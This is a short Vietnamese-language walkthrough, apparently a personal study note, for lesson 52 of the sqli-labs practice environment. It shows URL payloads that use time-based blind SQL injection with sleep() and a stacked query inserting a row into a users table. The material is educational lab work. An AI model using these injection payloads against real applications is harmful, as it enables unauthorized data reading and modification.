




# Những việc làm được với lesson-52
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-52



Ta sẽ thử nhập và thêm giá trị đặc biệt như bài trước 



Nó không hiển thị ra lỗi chứng tỏ rằng ta không thể sử dụng được error-base như bài trước nữa mà ta phải sử dụng time-base 

1. Tìm cấu trúc của bài 
```
192.168.80.225/sqli-labs/Less-52/?sort=1 --+
```

2. Sử dụng time-base 
Tương tự như các bài khác ta sẽ có cấu trúc sau 
```
192.168.80.225/sqli-labs/Less-52/?sort=1 and if(substr((select @@version),1,3)='5.5',sleep(1),false) --+
```



Ta có thểm tìm cấu trúc DB của nó với cách như thế này 

3. Sử dụng thêm lệnh trong câu truy vấn. Vì bài này có thể sử dụng được thêm lệnh do cấu trúc của nó được đặt sẵn
```
192.168.80.225/sqli-labs/Less-52/?sort=1;  insert into users values (52,'ad','ad'); --+
```



